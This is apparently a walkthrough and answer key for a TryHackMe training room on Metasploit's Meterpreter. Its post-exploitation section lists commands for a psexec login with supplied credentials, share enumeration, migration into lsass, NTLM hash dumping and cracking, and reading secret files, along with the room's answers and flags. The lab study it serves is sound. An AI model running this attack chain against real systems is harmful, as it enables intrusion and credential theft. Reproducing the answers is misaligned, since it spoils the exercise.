##### Link: [Metasploit: Meterpreter](https://tryhackme.com/room/meterpreter)
---
##### Task 1: Introduction to Meterpreter
1. No answer needed
	- `No answer needed`
---
##### Task 2: Meterpreter Flavors
1. No answer needed.
	- `No answer needed`
---
##### Task 3: Meterpreter Commands
1. No answer needed.
	- `No answer needed`
---
##### Task 4: Post-Exploitation with Meterpreter
1. No answer needed.
	- `No answer needed`
---
##### Task 5: Post-Exploitation Challenge
1. What is the computer name?
	- Run metasploit, use module
		- `msfconsole -q`
		- `use exploit/windows/smb/psexec`
		- `show options`
			- 
			- 
	- Modify its setting
		- `set SMBUser ballen`
		- `set SMBPass Password1`
		- `set LHOST tun0`
		- `set RHOSTS 10.49.187.43`
	- Run (Might not always works on 1st try)
		- `run`
			- 
	- Get computer name
		- `sysinfo`
			- 
	- Answer: `ACME-TEST`
2. What is the target domain?
	- Check screenshot of previous question
	- Answer: `FLASH`
3. What is the name of the share likely created by the user?
	- Background meterpreter, take note of session number
		- Press `Ctrl+Z`
		- `y`
			- 
	- Change module
		- `use post/windows/gather/enum_shares`
		- `show options`
			- 
	- Modify session number
		- `set SESSION 1`
			- 
	- Run
		- `run`
			- 
	- Among the output the non-default are `speedster`
	- Answer: `speedster`
4. What is the NTLM hash of the `jchambers` user?
	- Continue meterpreter 
		- `sessions -i 1`
			- 
	- Check current user
		- `getuid`
			- 
	- Running as `NT AUTHORITY\SYSTEM`, we should be able to use `hashdump` unfortunately its not working
		- `hashdump`
			- 
	- That’s because despite we run as `SYSTEM`, the meterpreter process didn’t run with `SYSTEM`’s privilege
	- To solve it, we simple need to migrate to other process that run as `SYSTEM` to obtain their privilege
	- View running processes, we sill search for `lsass`
		- `ps`
			- 
	- Migrate to `lsass`
		- `migrate 756`
			- 
	- Try `hashdump` again
		- `hashdump`
			- 
	- Answer: `69596c7aa1e8daee17f8e78870e25a5c`
5. What is the cleartext password of the `jchambers` user?
	- Use `crackstation`
		- 
	- Answer: `Trustno1`
6. Where is the `secrets.txt`  file located? (Full path of the file)
	- Use `search` command. It might take a few minutes
		- `search -f secrets.txt`
			- 
	- Answer: `c:\Program Files (x86)\Windows Multimedia Platform\secrets.txt`
7. What is the Twitter password revealed in the `secrets.txt` file?
	- Read the file
		- `cat "c:\Program Files (x86)\Windows Multimedia Platform\secrets.txt"`
			- 
	- Answer: `KDSvbsw3849!`
8. Where is the `realsecret.txt` file located? (Full path of the file)
	- Use `search` command. It might take a few minutes
		- `search -f realsecret.txt`
			- 
	- Answer: `c:\inetpub\wwwroot\realsecret.txt`
9. What is the real secret?
	- Read the file
		- `cat "c:\inetpub\wwwroot\realsecret.txt"`
			- 
	- Answer: `The Flash is the fastest man alive`
---
